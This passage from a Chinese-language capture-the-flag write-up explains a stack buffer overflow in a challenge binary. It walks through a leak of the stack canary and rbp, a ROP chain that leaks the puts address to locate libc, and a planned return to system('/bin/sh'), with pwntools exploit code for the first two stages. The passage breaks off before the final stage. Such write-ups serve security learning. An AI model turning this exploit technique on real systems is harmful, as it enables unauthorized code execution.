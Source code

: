 ```c
  s[v3 - 1] = 0;
  printf("Your input: %s", (const char *)buf);
  return v3;
}
```
这里可以看到有一个溢出漏洞，s大小0x70，但是传入的size却为256，有一个溢出，又来又将s复制给了buf，buf大小就是256不存在溢出，值得注意的是buf定义在main函数里，s定义在easyinput里，main调用easyinput，所以栈内s的地址要低于buf的地址，s和buf在栈内偏移一定，所以在s溢出之后的一定长度内，再将s内容复制给buf，可能会将s原本的内容给覆盖掉，这个之后调试可以看到。
# 利用思路
此时我们有了有一个溢出机会两次，题目还给了easyinput的地址，相当于知道了libeasy的基址,于是可以整理以下利用思路：
1. 溢出泄露canary，rbp 
2. rop泄露puts函数地址，得到libc基址，返回main函数获得两次溢出机会
3. rop返回到system拿到shell
# 具体分析
程序开了canary，我们首先要泄露canary，这里直接覆盖canary的高位`\x00`即可泄露，此时会将rbp一起泄露出来，我们也需要rbp的值，因为经过调试（看汇编）发现buf和一些变量（size）的值是通过`rbp + offset`获取的,所以溢出覆盖的时候要放入准确的rbp。如下：
```python
    pop_rdi = 0x0000000000400903
    ret = 0x000000000040061e
    main_addr = 0x400757
    puts_got = libc.got["puts"]
    puts_plt = libc.plt["puts"]
    sla("it?(y or n)\n",'y')
    p.recvuntil('is ')

    easyinput = int(p.recv()[0:14],16)
    #print "easyinput :",easyinput
    #print rv()
    libeasybase = easyinput - 0x87a
    lg("easyinput",easyinput)
    lg("libeasybase",libeasybase)
    # leak canary rbp    ->first time to leak
    buff = 'A' * 0x68+'a' 
    sn(buff)
    p.recvuntil('\x61')
    tmp = p.recv()
    canary = u64(tmp[:7].rjust(8,'\x00'))
    rbp = u64(tmp[-6:].ljust(8,'\x00'))
    lg("canary:",canary)
    lg("rbp:",rbp)
```
已经使用过一次机会，利用第二次机会，用ROP链泄露puts函数地址，之后返回mian函数，这里返回地时机有待考究，直接返回到调用easyinput函数的地方是可以，但是后续到read的时候read不到输入（或者运行过程中就报异常）应该是返回到main函数中间的位置栈内可能不平衡了，所以经过调试还是返回mian起始位置比较稳妥，且在写交互的时候注意回车的使用或者不适用，有时候会干扰做题的。
```python
# second time to leak        leak putaddr to get libc  return to main
    buff = p64(puts_got+libeasybase) + p64(puts_plt+libeasybase) +p64(main_addr)+'A' * (0x68-0x18) + p64(canary) + p64(rbp)+p64(pop_rdi)
    # gdb.attach(p)
    sn(buff)

    putaddr  = u64(ru('\x0a')[-7:-1].ljust(8,'\x00'))
    lg("putaddr",putaddr)
    libc1.address = putaddr - libc1.symbols['puts']
    lg("Libc address", libc1.address)
    system_addr = libc1.symbols["system"]
    sh_addr = libc1.search("/bin/sh").next()
    lg("system_addr", system_addr)
    lg("sh_addr", sh_addr)
```
这里构造的payload也有讲究，之前没有注意导致调试了很长时间，发现在s溢出的情况下，s和buf复制数据的时候会发生覆盖，buf（地址高）会覆盖掉s（地址低）的尾部，如果按照正常的payload的话后面的ROP会被直接覆盖掉,如下图：